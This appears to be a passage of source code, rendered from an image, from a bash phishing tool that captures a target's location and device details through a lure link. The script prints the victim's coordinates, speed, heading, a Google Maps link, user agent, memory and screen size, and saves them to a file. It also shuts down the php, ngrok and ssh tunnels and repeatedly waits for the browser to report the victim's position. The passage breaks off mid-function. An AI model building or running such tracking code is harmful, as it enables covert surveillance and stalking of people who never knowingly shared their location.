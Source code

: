   echo -e "${lh} Longitude:${n}" $longitude
  echo -e "${lh} Altitude:${n}" $altitude
  echo -e "${lh} Speed:${n}" $speed
  echo -e "${lh} Heading:${n}" $heading
  echo -e "${lh} Accuracy:n${n}" $accuracy
  echo -e "${lh} Map:${n} https://www.google.com/maps/place/"$latitude"+"$longitude
  echo -e "${lh} Device Info:${n}"
  echo -e "${lh} Platform:${n}" $platform
  echo -e "${lh} Cores:${n}" $hardware
  echo -e "${lh} User-Agent:${n}" $useragent
  echo -e "${lh} Memory:${n}" $memory
  echo -e "${lh} Resolution:${n}" $height"x"$width
  cat info/geolocate.txt >> info/saved.geolocate.txt
  echo -e "${k} Saved: info/saved.geolocate.txt"
  killall -2 php > /dev/null 2>&1
  killall -2 ngrok > /dev/null 2>&1
  killall ssh > /dev/null 2>&1
  if [[ -e sendlink ]]; then
  rm -rf sendlink
  fi
  exit 1

  }

  getcredentials() {
  echo -e "${lh} Waiting Geolocation ...${n}"
  while [ true ]; do


  if [[ -e "info/geolocate.txt" ]]; then
  echo -e "${m}[*] Geolocation Found!${n}"
  catch_cred

  fi
  sleep 0.5
  if [[ -e "info/error.txt" ]]; then
  echo -e "\n${m}[*] Error on Geolocation!${n}"
  checkerror=$(grep -o 'Error:.*' info/error.txt | cut -d " " -f2 | tr -d ' ' )
  if [[ $checkerror == 1 ]]; then
  echo -e "${m} User Denied Geolocation ...${n}"

  rm -rf info/error.txt
  getcredentials
  elif [[ $checkerror == 2 ]]; then
  echo -e "${m} Geolocation Unavailable ...${n}"

  rm -rf info/error.txt
  getcredentials
  elif [[ $checkerror == 3 ]]; then
  echo -e "${m} Time Out ...${n}"

  rm -rf info/error.txt
  getcredentials
  elif [[ $checkerror == 4 ]]; then
  echo -e "${m} Unknow Error ...${n}"
